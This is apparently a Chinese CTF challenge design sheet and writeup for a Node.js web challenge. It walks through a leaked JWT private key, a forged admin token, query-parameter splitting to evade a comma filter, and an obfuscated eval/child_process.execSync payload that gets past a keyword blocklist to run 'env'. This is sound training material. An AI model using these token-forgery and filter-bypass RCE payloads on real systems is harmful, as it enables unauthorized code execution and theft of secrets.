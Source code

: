 # CTF赛题设计说明
### [题目信息]：
出题人|出题时间|题目名字|题目类型|难度等级|题目分值
:-|:-|:-|:-|:-|:-
Y4tacker|20210425|NO???|web|3|100

### [题目描述]：
```
打开网站熟悉的页面，熟悉的url可是怎么感觉有点怪呢
```

### [题目考点]：
```
1. 信息泄露(jwt私钥泄露)
2. jwt伪造
3. nodejs传参绕过特性(将json请求格式拆分)
4. 绕过过滤RCE
```

### [是否原创]：
```
是
```

### [Flag]:
```
在env里
```



### [题目环境]：
```
无特殊要求，docker环境里已配置好
```

### [题目writeup]：
首先打开网站发现登录页面，发现可以注册，注册后发现网站源码发现

```
<!--这是啥好东西 /source.php-->
```

下载文件，对nodejs代码审计，发现隐藏路由，但是没有地址，审计后发现应该要读取`/user/1`对应的内容，前提是需要admin身份，从文件当中发现

```javascript
var privateKey = fs.readFileSync(process.cwd()+'//public/private.key');

```

存在私钥泄露，之后我们下载下来本地启动一个环境，生成admin

```
eyJhbGciOiJSUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyIjoiYWRtaW4iLCJpYXQiOjE2MTkyODA3NTJ9.BXkcA79CPaYOI3rgYD46elXvUF1M3a71movZZ5HOpiQOr2zPawssLzwNSYPf8PKoKzWcxTL-lbmsmNSwWGmD1_N1H0jTbREysIIvLHy3Mk4U-gg2H5XfC2DpBXeEOd459EWQVzSLUBXLYfC4QVRegVEx2RChpTnfIj6o23QNCws
```

替换auth参数，之后得到隐藏路由`/gi0e10uF10g`

发现其接收参数判断`status.rce!==undefined&&status.isAdmin===true&&status.isLogin===true`，这种情况下我们只能传入json格式请求，但是会带上逗号，可是过滤了它，我们可以配合上一个trick分开传入

```
?status={"isAdmin":true
&status="isLogin":true
&status="rce":"123"}
```

发现可以rce，但是过滤蛮多的

```
/main|proto|process|require|exec|var|"|:|\[|\]|[0-9]/
```

我们这里可以通过eval嵌套与反引号和加号绕过，当然有其他方法下面给出payload

post传入

```
http://url/gi0e10uF10g
?status={"isAdmin":true
&status="isLogin":true
&status="rce":"eval(`pro`%2b`cess`%2b`.ma`%2b`inModule`%2b`.req`%2b`uire('child_pro`%2b`cess').exe`%2b`cSync('env').toString()`)"}
```

首先`cat /flag`发现说在env里。之后执行`env`获取flag

